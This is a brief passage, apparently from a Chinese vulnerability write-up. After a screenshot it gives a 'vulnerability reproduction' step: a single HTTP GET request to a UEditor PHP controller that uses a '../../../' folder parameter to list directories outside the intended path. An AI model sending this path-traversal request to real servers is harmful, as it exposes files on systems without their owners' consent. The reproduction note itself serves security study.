 [![](assets/1701222510-f6561bb3fb2aa833c761c0ebf94853e9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127182131-bbcbfae2-8d0e-1.png)

## 漏洞复现：

使用这个接口进行漏洞复现  
GET /system/extend/ueditor/php/controller.php?action=listfile&folder=../../../ HTTP/1.1
